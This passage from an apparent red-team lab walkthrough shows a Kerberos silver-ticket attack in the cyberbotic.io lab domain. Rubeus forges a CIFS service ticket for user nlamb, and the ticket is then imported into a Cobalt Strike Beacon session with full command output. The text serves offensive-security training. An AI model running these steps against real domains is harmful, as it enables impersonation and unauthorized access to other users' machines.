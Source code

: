 **On the Windows attacking machine, use Rubeus to forge a service ticket for&#x20;**<mark style="color:yellow;">**`nlamb`**</mark>**&#x20;and the&#x20;**<mark style="color:yellow;">**`CIFS`**</mark>**&#x20;service:**

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : DEV.CYBERBOTIC.IO (DEV)
[*] SID            : S-1-5-21-569305411-121244042-2357301523
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : cifs
[*] Target         : wkstn-1.dev.cyberbotic.io

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'nlamb' to 'cifs/wkstn-1.dev.cyberbotic.io'

[*] AuthTime       : 9/9/2022 10:49:41 AM
[*] StartTime      : 9/9/2022 10:49:41 AM
[*] EndTime        : 9/9/2022 8:49:41 PM
[*] RenewTill      : 9/16/2022 10:49:41 AM

[*] base64(ticket.kirbi):

      doIFXD[...]MuaW8=
```

**Once we have that ticket, we can then import it into our Beacon for usage in the Domain:**

```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
[-] could not open \\wkstn-1.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass

[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5668
[+] Ticket successfully imported!
[+] LUID            : 0x423091

```